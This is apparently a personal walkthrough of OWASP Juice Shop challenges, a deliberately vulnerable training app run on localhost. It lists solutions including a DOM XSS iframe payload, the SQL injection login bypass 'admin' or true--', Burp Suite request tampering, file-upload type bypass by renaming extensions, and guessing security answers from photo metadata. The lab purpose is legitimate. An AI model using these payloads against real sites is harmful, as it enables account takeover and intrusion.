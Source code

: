 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br><br>

### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]<br>
rename .xml file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .xml extension<br>
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"<br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>
